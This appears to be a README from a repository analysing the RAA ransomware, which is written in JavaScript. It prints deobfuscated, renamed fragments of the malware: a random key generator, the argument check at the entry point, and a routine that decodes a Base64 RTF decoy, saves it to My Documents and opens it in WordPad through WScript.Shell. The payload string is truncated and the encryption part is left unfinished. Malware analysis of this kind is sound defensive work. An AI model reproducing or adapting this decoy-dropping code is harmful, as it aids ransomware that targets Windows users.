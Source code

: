 # RAA Ransomware JavaScript code analysis

On 14th of June 2016 I found an information about new ransomware called RAA Ransomware. Couple of websites mentioned about it as first ransomware created only by using JavaScript.

Following some links provided by Polish malware analyst **@hasherezade** (https://github.com/hasherezade, https://twitter.com/hasherezade) I've downloaded RAA JavaScript source code from malwr.com (https://malwr.com/analysis/YmE4MDNlMzk2MjY3NDdlYWE1NzFiOTNlYzVhZTlkM2Y/) to take a look its internals.

File **raa.js** contains original content of RAA downloaded from malwr.com, and other files contains source code with some refactoring which I've done during RAA analysis and test runs.


# Analysis

## Extracting parts of code into separate files

**raa.js** file contains 3rd party library, used for some encoding purposes. It's **CryptoJS** library (source code available here https://code.google.com/archive/p/crypto-js/ or GitHub fork here https://github.com/sytelus/CryptoJS).

To keep source code easier to analysis, I've decided to divide **raa.js** into couple of smaller parts. After quick investigation I was able to spot three main parts.

Folder **partials/** contains those parts of code (I keep order of how those fragments exists in original file). Please be aware that I've done a lot of renaming, mostly in **raa_other.js**. Original, obfuscated names you can find in **raa.js**.

- **Crypto.js** contains CryptoJS library
- **raa_other.js** contains other functions, including **zQqUzoSxLQ()**, which seems to be an entry point for the program
- **NWvQtGjjfQX.js** contains only body of function _NWvQtGjjfQX()_, which is quite huge :)


## How RAA JavaScript works

First executable line of script is this assingment:

```javascript
var TBucypWw = YUIMqkFkI();
```

I renamed all found variables and function into something what makes sense and allows to follow them in code in some easy way. This is how previous line and a function just before it looks like after renaming (I just guessed the role of each variable and function to choose particular name):

```javascript
function generateKey() {
    var returnedKey = "";
    var allowedChars = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789";
    for (var i = 0; i < 5; i++)
        returnedKey += allowedChars.charAt(Math.floor(Math.random() * allowedChars.length));
    return returnedKey;
}

// var TBucypWw = YUIMqkFkI();
var __key = generateKey();  // <-- returns xW5Gf
```

This fragment just generates a string which contains five characters. In this writeup, to understand its meaning, how and where it's used, I assigned *xW5Gf* from example above as generated value of **__key** variable.

Next executable fragment is:

```javascript
/* 
// original fragment:
	
var Yvwtdbvd = WScript.Arguments;
if (Yvwtdbvd.length == 0) {
    nYuMHHRx();
    NWvQtGjjfQX();
} else {
    null;
}

*/

var __arguments = WScript.Arguments;


if (__arguments.length == 0) {
    runShell();
    runRansomware();
} else {
    null;
}

```
And here's RAA starts its work. After script checks if there are any arguments passed (now let's assume that there aren't any) **runShell()** (nYuMHHRx()) is executed. Original name of this function is **nYuMHHRx()**, below is my refactored version.

```javascript

function runShell() {
    var b64EncodedString = "e1xydGYxXG..( very long Base64 encoded string )..zIwXHBhcg0KfQ0KBBSDIOBBSDIO==";
    b64EncodedString = b64EncodedString.replace(/BBSDIO/g, "A");
    var clear_b64EncodedString = CryptoJS.enc.Base64.parse(b64EncodedString);
    var clearedString = clear_b64EncodedString.toString(CryptoJS.enc.Utf8);
    clearedString = clearedString.replace(/BBSDIO/g, "A");
    var AdodbStreamObj = new ActiveXObject('ADODB.Stream');
    var WScriptShellObj = WScript.CreateObject("WScript.shell");
    var _saveFolder = WScriptShellObj.SpecialFolders("MyDocuments");
    _saveFolder = _saveFolder + "\\" + "doc_attached_" + __key;
    AdodbStreamObj.Type = 2;
    AdodbStreamObj.Charset = "437";
    AdodbStreamObj.Open();
    AdodbStreamObj.WriteText(clearedString);
    AdodbStreamObj.SaveToFile(_saveFolder);
    AdodbStreamObj.Close();
    var run = "wordpad.exe " + "\"" + _saveFolder + "\"";
    WScriptShellObj.Run(run);
    return 0;
}

```

Let's go through it step by step.

_b64EncodedString_ variable contains very long Base64 encoded string. After a couple of operations with Regular Expressions and CryptoJS methods calls - finally we get RTF document (see **extracted/extracted_rtf.rtf** file)

Next, a file is created with following path:

```
\MyDocuments\doc_atatched_xW5Gf
```

Content of previously generated RTF file is then saved at this path.

Finally, following command is prepared:

```
var run = wordpad.exe "\MyDocuments\doc_atatched_xW5Gf"
```

and executed by Windows Script Host using method Run():

```
WScriptShellObj.Run(run);
```
( reference: https://msdn.microsoft.com/en-us/library/d5fk67ky(v=vs.84).aspx )


-- TBD --

Next function is ** NWvQtGjjfQX()** which I've named runRansomware().



## Links, references

**News about RAA from BleepingComputer website**

http://www.bleepingcomputer.com/news/security/the-new-raa-ransomware-is-created-entirely-using-javascript/

**malwr.com**

https://malwr.com/analysis/YmE4MDNlMzk2MjY3NDdlYWE1NzFiOTNlYzVhZTlkM2Y/


**SophosLabs blog**			
https://nakedsecurity.sophos.com/2016/06/20/ransomware-thats-100-pure-javascript-no-download-required/
